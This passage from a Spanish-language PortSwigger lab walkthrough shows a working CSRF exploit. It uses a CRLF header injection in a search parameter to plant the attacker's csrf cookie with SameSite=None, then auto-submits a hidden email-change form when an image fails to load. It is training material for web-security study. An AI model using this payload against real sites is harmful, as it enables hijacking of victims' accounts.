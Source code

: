Para `comprobar` que `funciona` nos dirigimos al `Exploit server` y lo pegamos. El `valor` del `token CSRF` y el de la `cookie csrfKey` son nuestros, `los cuales obtenemos tras loguearnos`. Lo primero que hace este `exploit` es `rellenar el formulario de cambio de email` y `posteriormente mediante una imagen hacemos una petición que le setea al usuario víctima nuestra csrfKey` y `el atributo Samesite=None`, por último, `como esto no es ninguna imagen va a dar un error y va a enviar el formulario`

```
<html>
    <body>
        <form action="https://0a7500cf04cace2a819aa7c1004f0055.web-security-academy.net/my-account/change-email" method="POST">
            <input type="hidden" name="email" value="pwned@gmail.com">
            <input type="hidden" name="csrf" value="pwned">
        </form>
        <img src="https://0a7500cf04cace2a819aa7c1004f0055.web-security-academy.net/?search=test%0D%0ASet-Cookie:%20csrf=%20pwned%3b%20SameSite=%20None" onerror="document.forms[0].submit();">
    </body>    
</html>
```

![](/assets/img/CSRF-Lab-6/image_13.png)

Una vez hecho esto pulsamos sobre `View exploit` para ver si nos `cambia` el `email` a nosotros y `efectivamente` nos lo `cambia`. Independientemente de como generemos el payload, para `completar` el `laboratorio` debemos pegarlo en el `Exploit server` y pulsar sobre `Delivery exploit to victim`. Debemos tener en cuenta que `dos usuarios no pueden tener el mismo email`, por lo tanto, `debemos cambiar nuestro email o cambiar el email en el payload que enviamos`

![](/assets/img/CSRF-Lab-6/image_14.png)
